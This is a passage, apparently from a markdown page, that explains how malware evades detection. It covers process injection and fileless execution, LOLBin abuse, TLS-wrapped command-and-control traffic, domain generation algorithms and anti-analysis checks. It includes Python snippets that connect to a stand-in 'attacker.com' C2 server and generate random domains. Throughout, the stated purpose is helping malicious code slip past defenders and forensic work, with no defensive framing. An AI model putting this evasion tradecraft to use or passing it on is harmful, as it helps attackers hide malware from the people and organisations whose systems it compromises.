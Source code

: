 **Purpose**: Avoid execution in controlled analysis environments, reducing the risk of exposure.

---

### **3. Process Injection and Fileless Execution**
Injecting malicious code into legitimate processes or executing payloads in memory avoids disk-based detection:
- **DLL Injection**: Injecting a malicious DLL into a trusted process (e.g., `explorer.exe`) using techniques like `CreateRemoteThread`.
- **Reflective Loading**: Loading the payload directly into memory without writing to disk, often via PowerShell or `LoadLibrary`.
- **Living Off the Land (LOLBins)**: Leveraging native tools like `certutil` or `rundll32.exe` to execute payloads without external dependencies.

**Purpose**: Evade file-based detection mechanisms and reduce forensic traces.

---

### **4. Encrypted C2 Traffic**
Encrypting C2 communication ensures that network traffic remains indistinguishable from legitimate HTTPS traffic:
- **HTTPS/TLS**: Using Python’s `ssl` module to wrap socket connections in TLS:
  ```python
  import ssl, socket
  context = ssl.create_default_context()
  s = context.wrap_socket(socket.socket(), server_hostname="attacker.com")
  s.connect(("attacker.com", 443))
  ```
- **Custom Encryption**: Implementing AES or XOR encryption for data payloads to prevent plaintext interception.

**Purpose**: Bypass network monitoring tools that flag unencrypted or suspicious traffic.

---

### **5. Domain Generation Algorithms (DGAs)**
DGAs generate pseudo-random domains for C2 communication, evading domain blacklists:
- **Time-Based Seeds**: Using the current date or system time to generate domains (e.g., `xyz123.attacker.com`).
- **Entropy Sources**: Leveraging system-specific data (e.g., MAC address, CPU ID) to create unique domains.

**Example Code**:
```python
import random
def generate_dga():
    return "".join(random.choices("abcdefghijklmnopqrstuvwxyz", k=10)) + ".com"
```

**Purpose**: Ensure C2 domains remain unpredictable and avoid static domain-based blocking.

---

### **6. Anti-Static Analysis Techniques**
Static analysis tools inspect code without execution. To evade these:
- **Dynamic Code Generation**: Generating malicious code at runtime using `eval()` or `exec()`.
- **Environment Checks**: Detecting analysis tools (e.g., `Cuckoo Sandbox`, `VirusTotal`) via process or file system checks.
